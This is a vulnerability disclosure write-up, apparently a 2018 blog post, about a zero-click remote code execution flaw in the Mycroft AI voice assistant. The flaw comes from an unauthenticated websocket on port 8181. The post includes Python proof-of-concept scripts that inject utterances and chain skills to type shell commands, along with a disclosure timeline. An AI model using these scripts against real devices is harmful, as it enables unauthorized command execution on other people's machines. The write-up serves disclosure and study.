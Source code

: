 ```yaml
---
title: "Getting \"Zero Click\" Remote Code Execution in Mycroft AI vocal assistant"
date: 2018-06-10T20:59:09+02:00
tags: ["Writeup", "Code Review", "AI"]
---
```


# "Hey Mycroft, we've got a Problem"

![Mycroft AI](https://dmtyylqvwgyxw.cloudfront.net/instances/132/uploads/images/custom_image/image/466/normal_9b94a225-8605-4d78-82d2-4c59f6981c57.jpg)

## Introduction

During my journey contributing to open source I was working with my friend [Matteo De Carlo](https://github.com/portaloffreedom) on an [AUR Package](https://git.covolunablu.org/portaloffreedom/plasma-mycroft-PKGBUILD) of a really interesting project called [Mycroft AI](https://mycroft.ai). It's an AI-powered vocal assistant started with a [crowdfunding campaign](https://www.kickstarter.com/projects/aiforeveryone/mycroft-an-open-source-artificial-intelligence-for) in 2015 and a [more recent one](https://www.indiegogo.com/projects/mycroft-mark-ii-the-open-voice-assistant#/) that allowed Mycroft to produce their Mark-I and Mark-II devices. It's also running on Linux Desktop/Server, Raspberry PI and will be available soon™ on [Jaguar F-Type](https://www.youtube.com/watch?v=6GHmzbXp_jY) and [Land Rover](https://mycroft.ai/blog/mycroft-welcomes-jaguar-land-rover-new-investor/)

## Digging in the source code

While looking at the [source code](https://github.com/MycroftAI/mycroft-core) I found an interesting point: [here](https://github.com/MycroftAI/mycroft-core/blob/1f4c98f29ceb6a7981474f1620441e43aa364d00/mycroft/messagebus/service/main.py#L28-L57)

```python
...
host = config.get("host")
port = config.get("port")
route = config.get("route")
validate_param(host, "websocket.host")
validate_param(port, "websocket.port")
validate_param(route, "websocket.route")

routes = [
        (route, WebsocketEventHandler)
]
application = web.Application(routes, **settings)
application.listen(port, host)
ioloop.IOLoop.instance().start()
...
```

it defines a websocket server that uses to get instructions from the remote clients (like the [Android one](https://github.com/MycroftAI/Mycroft-Android)). The settings for the websocket server are defined in [mycroft.conf](https://github.com/MycroftAI/mycroft-core/blob/aa594aebea99eebd0109ad013b71a2210f2b72f4/mycroft/configuration/mycroft.conf#L111-L117)

```json
// The mycroft-core messagebus' websocket
  "websocket": {
    "host": "0.0.0.0",
    "port": 8181,
    "route": "/core",
    "ssl": false
},
```

So there is a websocket server that doesn't require authentication that by default is exposed on `0.0.0.0:8181/core`. Let's test it 😉

```python
#!/usr/bin/env python

import asyncio
import websockets

uri = "ws://myserver:8181/core"
command = "say pwned"

async def sendPayload():
    async with websockets.connect(uri) as websocket:
        await websocket.send("{\"data\": {\"utterances\": [\""+command+"\"]}, \"type\": \"recognizer_loop:utterance\", \"context\": null}")

asyncio.get_event_loop().run_until_complete(sendPayload())
```

And magically we have an answer from the vocal assistant saying `pwned`!

Well, now we can have Mycroft pronounce stuff remotely, but this is not a really big finding unless you want to scare your friends, right?

![Trump WRONG](https://media1.tenor.com/images/8a4a99d3bd67ba8d9a025c36edf4a624/tenor.gif)

## The skills system

Digging deeper we can see that Mycroft has a skills system and a default skill that can install others skills (pretty neat, right?)

How is a skill composed? From what we can see from the documentation a default skill is composed by:

- `dialog/en-us/command.dialog` contains the vocal command that will trigger the skill
- `vocab/en-us/answer.voc` contains the answer that Mycroft will pronounce
- `requirements.txt` contains the requirements for the skill that will be installed with `pip`
- `__int__.py` contains the main function of the skill and will be loaded when the skill is triggered

## What can I do now?

I could create a malicious skill that when triggered runs arbitrary code on the remote machine, but unfortunately this is not possible via vocal command unless the URL of the skill is not whitelisted via the online website. So this is possible but will be a little tricky.

### So I'm done?

Not yet. I found out that I can trigger skills remotely and that is possible to execute commands on a remote machine convincing the user to install a malicious skill. I may have enough to submit a vulnerability report. But maybe I can do a bit better...

## Getting a remote shell using default skills

We know that Mycroft has some [default skills](https://github.com/MycroftAI/mycroft-skills) like `open` that will open an application and others that are whitelisted but not installed. Reading through to the list, I found a really interesting skill called `skill-autogui`, whose description says `Manipulate your mouse and keyboard with Mycroft`. **We got it!**

Let's try to combine everything we found so far into a PoC:

```python
#!/usr/bin/env python

import sys
import asyncio
import websockets
import time


cmds = ["mute audio"] + sys.argv[1:]
uri = "ws://myserver:8181/core"


async def sendPayload():
    for payload in cmds:
        async with websockets.connect(uri) as websocket:
            await websocket.send("{\"data\": {\"utterances\": [\""+payload+"\"]}, \"type\": \"recognizer_loop:utterance\", \"context\": null}")
            time.sleep(1)

asyncio.get_event_loop().run_until_complete(sendPayload())
```

Running the exploit with `python pwn.py "install autogui" "open xterm" "type echo pwned" "press enter"`  allowed me to finally get a command execution on a Linux machine.

![PoC](https://raw.githubusercontent.com/Nhoya/MycroftAI-RCE/master/PoC.gif)

![WASSUUUUUUUUUUUUUUUUUUUUUUUUP](https://thumbs.gfycat.com/PleasedEducatedGalah-size_restricted.gif)

## _Notes_

- `open xterm` was needed because my test Linux environment had a DE installed, on a remote server the commands will be executed directly on TTY so this step is not nesessary.
- The skill branching had a [big change](https://mycroft.ai/blog/skill-branching-18-02/) and now some skills are not (yet) available (autogui is one of them) but this is not the real point. Mycroft has skills to interact with domotic houses and other services that can still be manipulated (the lack of imagination is the limit here). The vulnerability lies in the lack of authentication for the ws.

## Affected devices

All the devices running Mycroft <= ? with the websocket server exposed (Mark-I has the websocket behind a firewall by default)

## Timeline

- 08/03/2018 Vulnerability found
- 09/03/2018 Vulnerability reported
- 13/03/2018 The CTO answered that they are aware of this problem and are currently working on a patch
- 06/06/2018 The CTO said that they have no problem with the release of the vulnerability and will add a warning to remember the user to use a firewall `¯\_(ツ)_/¯`
- 09/06/2018 Public disclosure

